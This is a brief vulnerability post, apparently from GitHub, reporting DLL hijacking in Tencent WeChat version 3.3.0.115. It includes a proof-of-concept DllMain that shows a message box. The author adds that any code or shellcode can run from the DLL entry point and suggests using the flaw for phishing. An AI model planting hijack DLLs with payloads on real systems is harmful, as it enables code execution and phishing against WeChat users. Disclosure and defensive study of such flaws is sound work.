 `qqqq`

DLL hijacking found in Tencent wechat, version 3.3.0.115

demonstration

For example:

```
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{



}
return TRUE;

}
```

You can define any code and shellcode to execute in the DLL's entry function!!

Very simple, we can be used for rights protection or phishing!!!

